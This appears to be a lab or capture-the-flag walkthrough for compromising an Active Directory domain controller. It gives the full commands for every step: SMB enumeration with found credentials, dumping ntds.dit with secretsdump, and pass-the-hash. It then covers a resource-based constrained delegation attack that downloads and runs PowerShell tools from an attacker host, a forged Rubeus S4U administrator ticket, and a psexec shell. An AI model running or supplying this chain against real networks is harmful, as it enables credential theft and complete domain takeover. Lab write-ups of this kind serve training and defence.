
Enumerating with enum4linux:
```bash
enum4linux-ng 192.168.228.175
```

Now we get rpc info back:
 ![](attachment/578980134ae69d94c08c0056b2e207ea.png)
Found credentials
Now using the credentials to check shares:
```
nxc smb 192.168.228.175 -u V.Ventz -p 'HotelCalifornia194!' --shares
```
![](attachment/1abc747da41be44b0e0d474a22e2fc07.png)


```
smbclient \\\\192.168.228.175\\"Password Audit" -U resourced.local/V.Ventz%'HotelCalifornia194!'
```
```
smb: \> prompt off
smb: \> recurse on
smb: \> mget *
```
![](attachment/b925396545defbeef45c878e960dfe4c.png)
Now we find ntds.dit and registry hives of system and security:![](attachment/473c2c87b47b297b73fa214bb87f21aa.png)
Now cracking it:
```
secretsdump.py -ntds Active\ Directory/ntds.dit -system registry/SYSTEM -security registry/SECURITY LOCAL
```

From rpc enumeration we know L.Livingstone is sysadmin:
![](attachment/ab66e58546524f7f4a118a895e699052.png)
So trying his hashes:
![](attachment/0709285be56eab36cbe61deeff9159ac.png)

Now running sharphound:
```
.\SharpHound.exe -c All
```

Now we can check out transitive outbound relations with L.LIVINGSTONE:
![](attachment/b11164cdc3e5da36d8bf9962559b8b31.png)
This means we have GenericAll access on ResourceDC.

So doing the following steps:
```
iex (iwr -UseBasicParsing http://192.168.45.236/Powermad.ps1)

New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)

iex (iwr -UseBasicParsing http://192.168.45.236/PowerView.ps1)

$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Convert password to rc4_hmac hash:
```
.\Rubeus.exe hash /password:Summer2018!
```

Now we can get the ticket for administrator:
```
.\Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/RESOURCEDC.RESOURCED.LOCAL /ptt /nowrap
``` 

Now to get a shell:
```
psexec.py -k -no-pass resourced.local/administrator@ResourceDC.resourced.local -dc-ip 192.168.195.175
```
